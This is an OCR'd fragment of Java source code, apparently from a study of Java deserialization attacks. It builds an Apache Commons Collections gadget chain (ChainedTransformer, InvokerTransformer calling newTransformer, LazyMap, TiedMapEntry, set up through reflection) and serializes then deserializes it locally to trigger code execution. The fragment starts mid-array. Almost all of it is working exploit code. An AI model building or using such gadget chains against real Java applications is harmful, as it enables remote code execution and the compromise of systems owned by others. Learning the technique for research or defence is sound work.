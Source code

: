 ```java
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",new Class[0],new Object[0])

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashmap = new HashMap<>();
        LazyMap decoratemap = (LazyMap)LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");

//        hashmap.put(tiedMapEntry,decoratemap);
        Field mapfield = tiedMapEntry.getClass().getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(tiedMapEntry,new HashMap());
        hashmap.put(tiedMapEntry,"value");
        mapfield.set(tiedMapEntry,decoratemap);
          serialize(hashmap);
          unserialize("test.txt");


    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(obj);
    }
    public static void unserialize(Object obj) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

}


```

